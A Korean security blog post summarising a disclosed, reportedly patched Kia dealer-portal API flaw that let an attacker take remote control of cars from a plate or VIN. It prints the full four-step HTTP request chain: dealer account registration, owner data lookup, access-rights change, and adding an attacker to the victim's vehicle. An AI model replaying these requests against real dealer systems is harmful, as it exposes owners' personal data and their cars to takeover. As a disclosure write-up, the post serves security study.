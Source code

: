 ```yaml
---
title: "[하루한줄] 기아 차량 원격 제어 취약점"
author: h4mG
tags: [KIA, h4mG]
categories: [1day1line]
date: 2024-10-01 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://samcurry.net/hacking-kia

## Target

- 기아 딜러 웹사이트(kiaconnect.kdealer.com) API

## Explain

2024년 6월 11일, 기아 차량에서 차량 번호판만으로 주요 기능을 원격으로 제어할 수 있는 취약점이 발견되었습니다. 

취약점은 차량에 장착된 하드웨어를 통해 약 30초 내에 공격이 가능하며, 기아 커넥트 구독이 활성화되지 않은 차량에서도 동일하게 적용되었습니다.

공격자는 이름, 전화번호, 이메일, 집 주소와 같은 개인 정보를 획득하여, 피해자 몰래 차량의 두 번째 사용자로 등록시킬 수 있었습니다.

해당 취약점은 기아의 내부 패치를 거쳐 2024년 9월 26일에 공개되었습니다.

초기 타겟은 인터넷을 통해 차량 명령을 실행할 수 있는 owners.kia.com 웹사이트와 Kia Connect iOS 앱으로 설정했습니다. 

웹사이트는 reverse proxy를 통해 사용자 명령을 기아 Backend 서비스로 전달하고, 모바일 앱은 API에 직접 접근하는 구조입니다.

웹사이트에서 API 요청이 프록시 서버를 거쳐 Backend로 전달되는 방식을 살펴보겠습니다.

```
POST /apps/services/owners/apigwServlet.html HTTP/2
Host: owners.kia.com
Httpmethod: GET
Apiurl: /door/unlock
Servicetype: postLoginCustomer
Cookie: JSESSIONID=SESSION_TOKEN;

```

사용자가 owners.kia.com 웹사이트에서 차량 잠금 해제를 시도하면, 웹사이트에서 위와 같은 HTTP 요청이 전송됩니다.
이 요청에는 사용자의 세션 정보를 담고 있으며, 쿠키에 `JSESSIONID` 가 포함됩니다.

```
GET /apigw/v1/rems/door/unlock HTTP/1.1
Host: api.owners.kia.com
Sid: 454817d4-b228-4103-a26f-884e362e8dee
Vinkey: 3ecc1a19-aefd-4188-a7fe-1723e1663d6e

```

이후, 프록시 서버는 백엔드 서버로 `Sid` 토큰과 `Vinkey` 값을 담고 있는 HTTP 요청을 보냅니다.

`Sid`은 앞서 전달받은 `JSESSIONID`를 통해 사용자 세션을 인증 후 생성한 토큰 값이며,

`Vinkey`값은 차량의 VIN(Vehicle Identification Number, 차량 식별 번호)와 연결된 고유한 UUID입니다.

2023년에 발견된 취약점과 동일한 방식으로 작동하기 때문에, 이를 바탕으로 새로운 차량을 구매했을 때 고객 정보가 어떻게 처리되는지를 파악하고자 기아 딜러 시스템을 타겟으로 설정했습니다.

```
https://kiaconnect.kdealer.com/content/kDealer/en/kiauser.html?token=dealer_generated_access_token&vin=example_vin&scenarioType=3
```

새로 구매한 차량을 등록할 때, 기아 딜러는 고객에게 이메일로 등록 링크를 보냅니다. 

위 예시 링크를 확인하면, `token` 파라미터는 딜러가 생성한 일회성 액세스 토큰이며, `vin` 파라미터는 차량 고유번호(VIN)를 나타냅니다. `vin` 파라미터로 지정된 차량을 수정할 수 있습니다.

```
POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com

{
  "token": "985a49f0-1fe5-4d36-860e-d9b93272072b",
  "vin": "5XYP3DHC9NG310533",
  "scenarioType": 3,
  "loginPref": null
}

```

위 요청을 통해 `token`과 `vin`의 유효성을 확인하며, 기아 딜러의 인프라가 고객 정보와 연결되어 있음을 확인합니다.

```
dealerVehicleLookUp() {
    this.displayLoader = !0, this.vinToEnroll = "eDelivery" != this.entryPoint ? this.vinToEnroll.replace(/\s/g, "") : this.userDetails.vin, "17" == this.vinToEnroll.length && this.landingPageService.postOffice({
        vin: this.vinToEnroll
    }, "/dec/dlr/dvl", "POST", "postLoginCustomer").subscribe(i => {
        i && (i.hasOwnProperty("body") && "0" == i.body.status.statusCode ? this.processDvlData(i.body) : "1003" == i.body.status.errorCode && "kia-dealer" == this.entryPoint ? this.reRouteSessionExpire() : (this.displayLoader = !1, this.alertMessage = i.body.status.errorMessage, document.getElementById("triggerGeneralAlertModal").click()))
    })
}

```

딜러 웹사이트의 자바스크립트 코드를 분석한 결과, 직원 전용 API 호출을 발견했습니다.

이 API는 차량 조회, 계정 조회, 차량 등록 및 해지 등 직원만 사용할 수 있는 기능을 수행하는 것으로 파악되어 딜러 전용 API 엔드포인트를 타겟으로 공격을 시도했습니다.


```

POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com
Httpmethod: POST
Apiurl: /prof/registerUser

{
  "userCredential": {
    "firstName": "Sam",
    "lastName": "Curry",
    "userId": "normal.user@gmail.com",
    "password": "FakePass123!",
    "acceptedTerms": 1
  }
}

```

위 요청을 통해 딜러 사이트에 사용자 계정을 정상적으로 등록한 후, 로그인하여 세션 쿠키를 획득할 수 있었습니다.


```
HTTP/1.1 200 OK
Sid: 123e4567-e89b-12d3-a456-426614174000

```
세션 쿠키를 통해 기아 딜러 API에 접근할 수 있었고, 차량 소유자의 이름, 이메일, 전화번호 등의 개인 정보를 조회할 수 있었습니다.

![](kia/image.png)

이후 차량을 원격으로 제어하기 위해 위와 같이 공격 절차를 구성했습니다.

4번의 HTTP 요청을 통해 피해자 차량의 권한을 수정하고, 공격자를 주요 사용자로 등록하는 공격이 이루어졌습니다.


### 1.딜러 토큰 생성 및 세션 획득

```
POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com
Httpmethod: POST
Apiurl: /prof/authUser

{
  "userCredential": {
    "userId": "normal.kia.user@gmail.com",
    "password": "Fakepass123!"
  }
}

```
### 2. 피해자의 이메일 및 전화번호 조회

```
POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com
Appid: 123e4567-e89b-12d3-a456-426614174000
Apiurl: /dec/dlr/dvl

{
    "vin": "1HGBH41JXMN109186"
}

```

### 3. 피해자의 접근 권한 수정

```
POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com
Httpmethod: POST
Apiurl: /dec/dlr/rvp
Appid: 123e4567-e89b-12d3-a456-426614174000

{
  "vin": "VIN",
  "loginId": "victim_email_leaked@gmail.com",
  "dealerCode": "eDelivery"
}

```


### 4. 공격자를 피해자 차량에 추가


```
POST /apps/services/kdealer/apigwServlet.html HTTP/1.1
Host: kiaconnect.kdealer.com
Httpmethod: POST
Apiurl: /ownr/dicve
Appid: 123e4567-e89b-12d3-a456-426614174000

{
  "vin": "5XYRK4LFXMG016215",
  "loginId": "attacker@gmail.com"
}

```
이 과정을 통해 공격자는 차량의 주요 기능을 원격으로 제어할 수 있게 되었으며, 피해자는 이를 전혀 인지하지 못합니다.

# Demo

<iframe width="560" height="315" src="https://www.youtube.com/embed/jMHFCpQdZyg" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

2022년형 기아 EV6 차량을 대상으로 원격 명령을 실행하는 영상입니다. 

공격자가 기아 차량의 번호판을 입력하고, 소유주 개인정보를 가져온 뒤 차량의 원격 명령을 실행할 수 있습니다.


## Reference

- https://www.boannews.com/media/view.asp?idx=133232